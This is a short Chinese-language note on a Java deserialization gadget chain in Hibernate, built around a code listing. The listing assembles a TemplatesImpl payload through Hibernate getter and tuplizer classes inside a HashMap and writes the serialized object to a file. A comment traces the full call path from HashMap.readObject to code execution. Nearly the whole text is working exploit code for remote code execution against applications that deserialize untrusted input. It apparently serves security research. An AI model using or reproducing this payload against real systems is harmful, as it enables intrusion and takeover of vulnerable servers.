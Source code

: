这个类初始化时直接接收一个 Method，而 get 方法直接调用，可以用来执行任意方法。

```java
import Tools.SerializeUtil;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.hibernate.engine.spi.TypedValue;
import org.hibernate.property.BasicPropertyAccessor;
import org.hibernate.property.Getter;
import org.hibernate.tuple.component.ComponentTuplizer;
import org.hibernate.type.Type;

import java.lang.reflect.Constructor;
import java.util.HashMap;
/**
 * HashMap.readObject()
 *     TypedValue.hashCode()
 *         ValueHolder.getValue()
 *             ValueHolder.DeferredInitializer().initialize()
 *                 ComponentType.getHashCode()
 * 		            PojoComponentTuplizer.getPropertyValue()
 *                         AbstractComponentTuplizer.getPropertyValue()  
 *                             BasicPropertyAccessor$BasicGetter.get()/GetterMethodImpl.get()
 *                                 TemplatesImpl.getOutputProperties()
 */
public class H1byme {
    private static Object evil;

    public static void main(String[] args) throws Exception {

        TemplatesImpl evilObj=SerializeUtil.generateTemplatesImpl();


        try {//不同的版本有细小的差别
            // 创建 GetterMethodImpl 实例，用来触发 TemplatesImpl 的 getOutputProperties 方法
            Class<?> getterImpl = Class.forName("org.hibernate.property.access.spi.GetterMethodImpl");
            Constructor<?> constructor = getterImpl.getDeclaredConstructors()[0];
            constructor.setAccessible(true);
          evil = constructor.newInstance(null, null, TemplatesImpl.class.getDeclaredMethod("getOutputProperties"));
        } catch (Exception ignored) {
           evil=new BasicPropertyAccessor().getGetter(TemplatesImpl.class,"outputProperties");  //获取BasicGetter对象
            //Getter evil=new BasicPropertyAccessor().createGetter(TemplatesImpl.class,"outputProperties");
        }

        Object  getget =  SerializeUtil.createWithoutConstructor(Class.forName("org.hibernate.tuple.component.PojoComponentTuplizer"));
        SerializeUtil.setFieldValue(getget,"propertySpan",1);
       SerializeUtil.setFieldValue(getget,"getters",new Getter[]{(Getter) evil});

        Object GetPro =  SerializeUtil.createWithoutConstructor(Class.forName("org.hibernate.type.ComponentType"));
        SerializeUtil.setFieldValue(GetPro,"componentTuplizer",(ComponentTuplizer)getget);
        SerializeUtil.setFieldValue(GetPro,"propertySpan",1);

        TypedValue getHashCode =new TypedValue((Type) GetPro,null);  //通过反射赋值,以免在序列化的时候调用gadget
        HashMap map=new HashMap<>();
        map.put(getHashCode,"Yasax1");
        SerializeUtil.setFieldValue(getHashCode,"value",evilObj);


       SerializeUtil.writeObjectToFile(map,"h1");
```